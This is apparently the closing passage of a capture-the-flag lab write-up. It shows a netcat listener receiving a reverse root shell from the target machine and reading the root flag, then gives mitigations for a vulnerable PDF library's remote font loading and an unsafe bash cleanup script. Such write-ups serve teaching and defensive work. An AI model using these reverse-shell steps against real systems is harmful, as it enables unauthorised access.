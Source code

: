 I launched a netcat listener and waited for the script to run.

```bash
$ nc -klvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.200] 48880
bash: cannot set terminal process group (3755): Inappropriate ioctl for device
bash: no job control in this shell

root@interface:~# cat /root/root.txt
cat /root/root.txt
REDACTED
```

## Mitigation

This box had a library with a know vulnerability. The Snyk post mentions that the issue was not fixed at the time they published it. I don't know if it has been patched since. But they mention an easy way to protect against this issue. You can turn off the loading remote font by setting the `isRemoteEnabled` setting to false.

The issue with the cleanup script is harder for me. I don't do much bash scripting, so I don't know how to process user's input in a secure manner. But fixing it remains easy. If you generate temporary files, you can put them in a folder that contains nothing else and delete everything in it. 